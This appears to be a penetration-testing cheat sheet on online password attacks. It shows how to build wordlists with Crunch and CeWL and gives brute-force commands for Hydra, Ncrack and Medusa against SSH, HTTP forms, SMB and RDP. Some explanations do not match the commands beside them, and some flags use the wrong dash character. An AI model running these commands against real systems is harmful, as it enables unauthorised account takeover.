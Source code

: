 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

> `crunch [min] [max] [characterset] -t [pattern] -o [output filename]`

min = minimum password length
max = maximum password length
characterset = The character set to be used in generating the passwords
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728. 

>  `./crunch 1 1 -p pen test lab`

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

> `./crunch 6 6 0123456789 -b 1mb -o START`

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> `./crunch 3 3 -f charset.lst lalpha -o START -c 20`

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is [abcdefghijklmnopqrstuvwxyz].

> `./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@`

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

> `cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org`


## Bruteforce
### Hydra 

> `hydra -l username -p passwordlist.txt [target (ip address and port)]`

### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> `hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh`

-l = the username 

-L = list of usernames (if you don't know the login)

-p = password (never used) 

-P - the directory for the wordlists (file)

-M FILE   list of servers to be attacked in parallel, one entry per line 


Less common options:
-vV = verbose mode, shows you every login attempt hydra tries 

-s = specify the port on which we running our attack 

-e ns = checks for blank or no password fields 

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> `hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]`

#### SMB Bruteforce
> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`



### Ncrack

#### RDP bruteforce

> `ncrack -vv --user offsec -P passwordfile.txt  rdp://192.168.11.35`

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`



